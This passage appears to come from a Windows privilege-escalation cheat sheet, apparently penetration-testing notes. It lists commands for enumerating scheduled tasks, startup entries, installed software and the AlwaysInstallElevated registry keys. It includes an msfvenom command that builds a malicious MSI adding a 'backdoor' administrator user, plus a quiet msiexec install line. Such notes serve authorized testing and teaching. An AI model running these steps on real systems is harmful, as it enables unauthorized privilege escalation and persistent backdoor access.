 Check https://www.toshellandback.com/2015/08/30/gpp/ for some explanations.


### Scheduled Tasks

Look for anything custom, run by a privileged user, and running a binary we can overwrite. Might be tons of output
```
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
```
Or in powershell
```
Get-ScheduledTask | ft TaskName, State
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
Check this file
```
c:\WINDOWS\SchedLgU.Txt
```

Startup tasks

```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

### AlwaysInstallElevated

Worth checking for...
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If those keys are set to enabled, then you can use msfvenom to generate a malicious MSI file and install it:
```
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```
https://toshellandback.com/2015/11/24/ms-priv-esc/ has some more examples.


### Weak Service, Process, and Program Permissions
Taken mostly from https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/

What is installed?
```
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
```
